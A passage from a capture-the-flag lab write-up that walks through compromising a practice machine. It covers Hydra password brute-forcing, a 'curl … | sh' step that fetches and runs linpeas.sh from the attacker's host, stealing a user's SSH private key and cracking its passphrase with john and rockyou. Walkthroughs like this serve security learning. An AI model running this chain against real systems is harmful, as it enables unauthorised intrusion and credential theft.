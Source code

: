 ```
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-15 08:46:06
```

`armando`

7. What service do you use to access the server(answer in abbreviation in all caps)?

`ssh`

8. Enumerate the machine to find any vectors for privilege escalation

* Hacker: `sudo python3 -m http.server 80`
* Target: `curl http://10.8.106.222/linpeas.sh | sh`

```
[+] Files inside others home (limit 20)
/home/kay/.profile
/home/kay/.viminfo
/home/kay/.bashrc
/home/kay/.bash_history
/home/kay/.lesshst
/home/kay/.ssh/authorized_keys
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
/home/kay/.bash_logout
/home/kay/.sudo_as_admin_successful
/home/kay/pass.bak
```

* Copy/Paste `/home/kay/id_rsa` to Hacker

`no answer needed`

9. What is the name of the other user you found(all lower case)?

`kay`

10. If you have found another user, what can you do with this information?

`No answer needed`

11. What is the final password you obtain?

`/usr/share/john/ssh2john.py kay_id_rsa > kay_id_rsa.jtr`

`john --w=/usr/share/wordlists/rockyou.txt kay_id_rsa.jtr`

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_id_rsa)
1g 0:00:00:12 DONE (2020-09-15 09:05) 0.08143g/s 1167Kp/s 1167Kc/s 1167KC/sa6_123..*7¡Vamos!
Session completed
```

`ssh -i kay_id_rsa kay@10.10.103.107` Passphrase: `beeswax`

```
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

